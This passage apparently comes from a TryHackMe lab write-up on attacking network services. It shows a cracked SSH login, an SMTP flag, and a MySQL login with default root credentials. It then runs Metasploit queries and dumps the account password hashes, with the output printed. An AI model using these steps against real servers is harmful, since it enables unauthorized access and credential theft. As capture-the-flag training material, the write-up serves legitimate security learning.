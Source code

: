 ```
[22][ssh] host: 10.10.27.51   login: administrator   password: alejandro
```

We are in as administrator.

# smtp.txt

```
THM{who_knew_email_servers_were_c00l?}
```

# MySQL

**Given Credentials: `root`:`password`**

mysql -h 10.10.23.35 -u root -p

# Metasploit

auxiliary/admin/mysql/mysql_sql

```
msf6 auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 10.10.23.35

[*] 10.10.23.35:3306 - Sending statement: 'select version()'...
[*] 10.10.23.35:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
[*] Auxiliary module execution completed
```

set SQL 'show databases'

```
[*] 10.10.23.35:3306 -  | information_schema |
[*] 10.10.23.35:3306 -  | mysql |
[*] 10.10.23.35:3306 -  | performance_schema |
[*] 10.10.23.35:3306 -  | sys |
```

# Dumping Schema

auxiliary/scanner/mysql/mysql_schemadump => Dumps whole schema/database.

# /auxiliary/scanner/mysql/mysql_hashdump => Dumps hashes

```
[+] 10.10.23.35:3306      - Saving HashString as Loot: root:
[+] 10.10.23.35:3306      - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.23.35:3306      - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.23.35:3306      - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.23.35:3306      - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.23.35:3306      - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
```
